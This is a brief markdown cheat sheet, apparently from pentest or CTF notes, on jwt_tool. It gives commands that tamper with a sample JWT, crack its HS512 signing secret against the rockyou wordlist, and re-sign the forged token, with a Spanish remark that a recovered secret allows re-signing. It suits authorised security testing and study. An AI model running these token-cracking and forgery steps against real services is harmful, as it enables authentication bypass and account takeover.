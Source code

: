 # JWT Tool


    python3 jwt_tool.py eyJhbGciOiJIUzUxMiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoxLCJlbWFpbCI6ImRpZWdvQGRpZWdvLmNvbSIsInRva2VuIjoiIiwiZXhwaXJ5IjoiMDAwMS0wMS0wMVQwMDowMDowMFoiLCJyb2xlIjoidHJpbiIsImlzcyI6Imczbm90eXBlIiwic3ViIjoiZGllZ29AZGllZ28uY29tIiwiYXVkIjpbIm1pcy11c3VhcmlvcyJdLCJleHAiOjE3MzkzMzE1OTEsIm5iZiI6MTczOTI0NTE5MSwiaWF0IjoxNzM5MjQ1MTkxLCJjcmVhdGVkX2F0IjoiMDAwMS0wMS0wMVQwMDowMDowMFoiLCJ1cGRhdGVkX2F0IjoiMDAwMS0wMS0wMVQwMDowMDowMFoifQ.QQRk6z2UmCwJL4mYqLjhNAL7lSnyGG3NPDaOnh3VtC3l6hRROTr70FpGcp8CsuUlC-6PDXN9PKAyDRe_nD732A -T

Crack the secret

    python3 jwt_tool.py eyJhbGciOiJIUzUxMiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoxLCJlbWFpbCI6ImRpZWdvQGRpZWdvLmNvbSIsInRva2VuIjoiIiwiZXhwaXJ5IjoiMDAwMS0wMS0wMVQwMDowMDowMFoiLCJyb2xlIjoidHJpbiIsImlzcyI6Imczbm90eXBlIiwic3ViIjoiZGllZ29AZGllZ28uY29tIiwiYXVkIjpbIm1pcy11c3VhcmlvcyJdLCJleHAiOjE3MzkzMzE1OTEsIm5iZiI6MTczOTI0NTE5MSwiaWF0IjoxNzM5MjQ1MTkxLCJjcmVhdGVkX2F0IjoiMDAwMS0wMS0wMVQwMDowMDowMFoiLCJ1cGRhdGVkX2F0IjoiMDAwMS0wMS0wMVQwMDowMDowMFoifQ.QQRk6z2UmCwJL4mYqLjhNAL7lSnyGG3NPDaOnh3VtC3l6hRROTr70FpGcp8CsuUlC-6PDXN9PKAyDRe_nD732A -C -d /usr/share/wordlist/rockyou.txt



    python3 jwt_tool.py eyJhbGciOiJIUzUxMiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoxLCJlbWFpbCI6ImRpZWdvQGRpZWdvLmNvbSIsInRva2VuIjoiIiwiZXhwaXJ5IjoiMDAwMS0wMS0wMVQwMDowMDowMFoiLCJyb2xlIjoidHJpbiIsImlzcyI6Imczbm90eXBlIiwic3ViIjoiZGllZ29AZGllZ28uY29tIiwiYXVkIjpbIm1pcy11c3VhcmlvcyJdLCJleHAiOjE3MzkzMzE1OTEsIm5iZiI6MTczOTI0NTE5MSwiaWF0IjoxNzM5MjQ1MTkxLCJjcmVhdGVkX2F0IjoiMDAwMS0wMS0wMVQwMDowMDowMFoiLCJ1cGRhdGVkX2F0IjoiMDAwMS0wMS0wMVQwMDowMDowMFoifQ.QQRk6z2UmCwJL4mYqLjhNAL7lSnyGG3NPDaOnh3VtC3l6hRROTr70FpGcp8CsuUlC-6PDXN9PKAyDRe_nD732A -T -S hs256 -p 'secret'



https://www.youtube.com/watch?v=ZGarKE9KTAY

Se puede volver a firmar el token despues del tamper si se logra obtener el secret.